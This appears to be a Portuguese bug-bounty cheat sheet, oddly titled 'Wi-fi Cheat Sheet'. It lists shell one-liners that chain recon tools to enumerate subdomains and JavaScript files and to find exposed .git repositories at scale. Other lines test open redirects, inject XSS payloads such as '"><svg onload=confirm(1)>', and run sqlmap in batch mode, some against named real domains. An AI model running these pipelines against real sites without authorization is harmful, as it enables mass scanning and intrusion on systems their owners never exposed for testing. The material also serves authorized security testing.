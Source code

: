 ```yaml
---
title: "Wi-fi Cheat Sheet"
permalink: /ct/reconb-cs/
layout: archive
author_profile: true
---
```


# Recon

Faz um levantamento de arquivos js e salva em um arquivo
```
echo [dominio] | gauplus | grep -iE '\.js' | anew [nome-arquivo] 
```

Valida se os arquivos js encontrados estão disponíveis
```
cat [nome-arquivo] | httpx -status-code -mc 200 | anew [nome-arquivo]
```

Passa lista para dentro de comandos que não recebem listas
```
xargs -a lista -I@ sh -c 'comando @'
```

encontrando git exposed em larga escala
```
echo [site] | subfinder -silent | xargs -I@ sh -c 'goop @ -f'
```

testando open redirect
```
waybackurls [site] | grep -a -i \=http | qsreplace 'https://softwall.com.br' | while read host do;do curl -s -L $host -I|grep "softwall.com.br" && echo -e "$host \033[0;31mVulnerable\n" ;done
```


CRONTAB :
```
59 10 * * * nuclei -update-templates ; echo "NUCLEI ATUALIZADO" | /usr/bin/notify >/dev/null 2>&1 >/dev/null 2>&1
```

Pegando IP dos subdominios, enumerando portas e vendo se tem vulns
```
echo [site] | subfinder -silent | httpx -silent -ip | awk '{print $2}' | tr -d '[]' | xargs -I@ sh -c 'echo @ | sdlookup -json | python3 -m json.tool' 
```

```
bbrf domains | httpx -ip -silent -no-color | awk '{print $2}' | anew | tr -d '[]' | xargs -I@ sh -c 'echo @ | sdlookup -json | python -m json.tool'
```

```
echo terra.com.br | httpx -silent -ip | awk '{print $2}' | tr -d '[]' | xargs -I@ sh -c 'echo @ | sdlookup -json | python -m json.tool'
```

Testando XSS
```
echo [site] | httpx -silent | hakrawler -subs | grep "=" | qsreplace '"' | airixss -payload "confirm(1)" | egrep -v 'Not'
```

```
echo [site] | gauplus | gf xss | uro | httpx -silent | qsreplace '"><svg onload=confirm(1)>' | airixss -payload "confirm(1)"
```

```
echo [site] | waybackurls | gf xss | uro | httpx -silent | qsreplace '"><svg onload=confirm(1)>' | airixss -payload "confirm(1)"
```

```
echo testphp.vulnweb.com | waybackurls | gf xss | uro | qsreplace '"><img src=x onerror=alert(1);>' | freq | egrep -v 'Not'
```

Testando SQLi
```
findomain -t [site] -q | httpx -silent | anew | waybackurls | gf sqli >> sqli ; sqlmap -m sqli --batch --random-agent --level 1
```

```
subfinder -d [site] -q | httpx -silent | anew | waybackurls | gf sqli >> sqli ; sqlmap -m sqli --batch --random-agent --level 1
```

Busca de SubDominio
```
curl -s "https://jldc.me/anubis/subdomains/[dominio]" | grep -Po "((http|https):\/\/)?(([\w.-]*)\.([\w]*)\.([A-z]))\w+" | anew
```

